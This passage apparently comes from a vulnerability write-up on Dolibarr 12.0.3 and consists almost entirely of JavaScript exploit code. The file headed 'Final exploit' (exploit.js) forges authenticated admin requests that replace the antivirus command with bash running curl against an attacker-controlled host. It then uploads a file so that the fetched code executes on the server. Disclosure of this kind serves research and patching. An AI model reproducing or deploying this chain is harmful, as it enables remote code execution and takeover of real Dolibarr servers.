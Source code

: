 ```js
        "\r\n" + 
        "2097152\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"userfile[]\"; filename=\"junk.txt\"\r\n" + 
        "Content-Type: text/plain\r\n" + 
        "\r\n" + 
        "junk\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"sendit\"\r\n" + 
        "\r\n" + 
        "Envoyer fichier\r\n" + 
        "-----------------------------38749762618930241634203718874--\r\n";
    var aBody2 = new Uint8Array(body2.length);
    for (var i = 0; i < aBody2.length; i++)
        aBody2[i] = body2.charCodeAt(i); 
    xhr2.send(new Blob([aBody2]));
}
```

### Final exploit

File: <span style="color:red">exploit.js</span>
```js
function changeBinary() {
    var xhr1 = new XMLHttpRequest();
    xhr1.open("POST", "http:\/\/127.0.0.1\/projects\/dolibar\/12.0.3\/htdocs\/admin\/security_file.php", true);
    xhr1.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
    xhr1.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr1.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
    xhr1.withCredentials = true;
    var body1 = "token=%242y%2410%24oi7TOu6vwFc1h1h87wNyNuT%2Fd0lH3cXUX5NpvzQ%2FwPZyGpKOrIW4G&action=updateform&MAIN_UPLOAD_DOC=2048&MAIN_UMASK=0664&MAIN_ANTIVIRUS_COMMAND=bash&MAIN_ANTIVIRUS_PARAM=-c+%22%24%28curl+http%3A%2F%2F<URL_UNDER_OUR_CONTROL>%3A<RELATED_PORT>%2Fpoc.txt%29%22&button=Modifier";
    var aBody1 = new Uint8Array(body1.length);
    for (var i = 0; i < aBody1.length; i++)
        aBody1[i] = body1.charCodeAt(i); 
    xhr1.send(new Blob([aBody1]));
}

function triggerBinary() {
    var xhr2 = new XMLHttpRequest();
    xhr2.open("POST", "http:\/\/127.0.0.1\/projects\/dolibar\/12.0.3\/htdocs\/admin\/security_file.php", true);
    xhr2.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
    xhr2.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
    xhr2.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------38749762618930241634203718874");
    xhr2.withCredentials = true;
    var body2 = "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"token\"\r\n" + 
        "\r\n" + 
        "$2y$10$pnXTTqQ7R1h2epVIAd3yce83Jh6n1eV.ul59VligSe0MJ0W/grGPe\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"section_dir\"\r\n" + 
        "\r\n" + 
        "\r\n" + 
        "-----------------------------38749762618930241634203718874\r\n" + 
        "Content-Disposition: form-data; name=\"section_id\"\r\n" + 
```